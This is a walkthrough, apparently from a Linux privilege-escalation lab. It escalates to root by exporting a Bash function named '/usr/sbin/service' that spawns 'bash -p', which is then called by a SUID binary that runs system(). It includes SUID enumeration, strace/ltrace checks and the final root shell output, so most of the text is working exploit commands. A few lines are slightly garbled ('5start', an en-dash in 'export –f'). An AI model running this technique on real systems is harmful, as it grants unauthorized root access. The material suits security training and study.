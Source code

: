 In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2==

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 5start"]...

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env2 2>&1 | grep service
```

system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

5. Verify the version of Bash is lower than 4.2-048:

```bash
bash --version
```

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

6. Create a Bash function with the name “/usr/sbin/service” and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; } export –f /usr/sbin/service
```

7. Execute the SUID file for a root shell:
```bash
/usr/local/bin/suid-env2
```

```bash
id
```

uid=0(root) gid=0(root) groups=0(root)
